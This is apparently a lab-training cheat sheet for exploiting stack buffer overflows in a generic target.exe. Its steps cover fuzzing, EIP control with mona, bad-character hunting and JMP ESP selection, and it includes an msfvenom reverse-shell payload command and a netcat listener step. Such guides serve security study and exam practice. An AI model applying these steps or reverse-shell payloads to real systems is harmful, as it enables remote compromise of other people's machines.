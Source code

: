 # bof
## Buffer Overflows

## Setup
* Open Immunity Debugger as admin
* In Immunity Debugger, set a working folder for mona:
```!mona config -set workingfolder c:\mona\%p```

## Fuzzing
* In Kali, create the fuzzer.py script and execute
* Note the size of the largest string sent
* Create a cyclic payload with pattern_create.rb, 400 bytes longer than crashing string size:
```$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <string+400>```
* Create exploit.py with the generated payload
		
## Control EIP
* Relaunch target.exe and run exploit.py
* In Immunity Debugger, run findmsp:
```!mona findmsp -distance 600```
* Locate "EIP contains normal pattern: <> (offset <>)"
* Update exploit.py with new values:
  * Set offset variable value in exploit.py to 1978
  * Set payload to empty string
  * Set retn variable to 'BBBB'
* Relaunch target.exe and run exploit.py
* EIP should now be overwritten with 42424242

## Find Bad Characters
### Iteration 0
* Create a bytearray in Mona:
```!mona bytearray -b "\x00"```

_Note location of 'bytearray.bin' (c:\mona\*\bytearray.bin)_

* In Kali, create and run a python script to generate bad characters:
```python
from __future__ import print_function

for x in range(1, 256):
    print("\\x" + "{:02x}".format(x), end='')

print()
```
* Update payload variable in exploit.py with badchars string

### Iteration 1..n of n
* Reload target.exe and run exploit.py
* Run !mona compare with the ESP address
```!mona compare -f C:\mona\*\bytearray.bin -a <ESPaddress>```
* Generate a new bytearray in Mona, excluding all badchars from the comparison result:
```!mona bytearray -b "\x00\x07\x2e\xa0"```
	
_Note: don't include sequential characters_

* Remove badchars from exploit.py:
```payload = "<all non-bad characters>"```
*  All bad characters identified when result: "Unmodified"

## Jump Point
* Run !mona jmp to identify all jump points with addresses that don't contain badchars:
```!mona jmp -r esp -cpb "\x00\x07\x2e\xa0\"```
* Choose a jmp address and update "retn" variable in exploit.py, reversing the endianness:
  * Mona address: "0x625011af"
  * Python address: "\xaf\x11\x50\x62"

## Generate Payload and NOPs
* Create a payload with msfvenom:
```msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> EXITFUNC=thread -b "\x00\x07\x08\x2e\x2f\xa0\xa1\xa2\xa3\xa4" -f py```
* Update payload of exploit.py with 'buf' variable definition and set payload = buf
* Set padding variable to 16 NOP bytes:
```padding = "\x90" * 16```

## Exploitation
* Start nc listener on :port
* Reload target.exe and exploit
